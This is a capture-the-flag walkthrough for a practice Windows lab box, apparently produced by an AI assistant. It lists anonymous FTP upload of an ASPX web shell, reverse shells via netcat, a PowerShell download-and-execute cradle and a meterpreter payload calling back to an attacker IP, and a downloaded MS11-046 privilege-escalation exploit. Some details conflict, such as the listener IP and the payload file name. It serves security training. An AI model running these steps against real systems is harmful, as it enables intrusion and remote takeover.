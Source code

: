 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)


## 🧭 Reconnaissance

**Full port scan:**
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

**Targeted version/service scan:**
```bash
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

---

## 🌐 [Web](HTTP) & [FTP](FTP) Enumeration

**Check FTP access (Anonymous allowed):**
```bash
ftp 10.10.10.5
# Login: anonymous / [blank]
```

**Identify if FTP root = Web root:**
```bash
# Upload test file or observe files:
put test.html
# Check in browser: http://10.10.10.5/test.html
```

**Check headers for ASP.NET support (e.g. using Burp):**
```
X-Powered-By: ASP.NET
```

---

## 📥 Initial Foothold (Webshell Upload)

**Copy a basic ASPX web shell:**
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

**Upload via FTP:**
```bash
ftp> put cmd.aspx
```

**Access webshell:**
```
http://10.10.10.5/cmd.aspx
```

**Execute command (example):**
```
whoami
```

---

## 🐚 Reverse [Shell](SSH) (Multiple Methods)

### Option 1: Netcat

**Start SMB share:**
```bash
mkdir smb
cp /usr/share/windows-binaries/nc.exe smb/
sudo smbserver.py share smb
```

**Start listener:**
```bash
nc -lnvp 443
```

**From webshell:**
```cmd
\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
```

---

### Option 2: Nishang (PowerShell TCP)

**Edit and host reverse shell:**
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 smb/
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443" >> smb/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

**From webshell:**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1')"
```

---

### Option 3: Meterpreter

**Generate payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=666 -f aspx -o met_rev_666.aspx
```

**Upload via FTP:**
```bash
ftp> put met_rev_666.aspx
```

**Start handler:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.13
set LPORT 666
run
```

**Trigger callback:**
```
curl http://10.10.10.5/met_rev_443.aspx
```

---

## 🔧 Privilege Escalation

```
getuid
```

```
systeminfo
```

**Check .NET versions:**
```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**Use [Watson](https://github.com/rasta-mouse/Watson) (uploaded via SMB):**
```cmd
\\10.10.14.14\share\Watson.exe
```

https://github.com/abatchy17/WindowsExploits

https://www.exploit-db.com/exploits/40564

**Pick MS11-046 (example):**
```bash
wget https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe
```

**Upload and run:**
```cmd
C:\inetpub\wwwroot\MS11-046.exe
```

**Confirm SYSTEM shell:**
```cmd
whoami
```

---

## 🎯 Flags

```cmd
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

Let me know if you want this exported as a Markdown file or want to move on to another box! 💥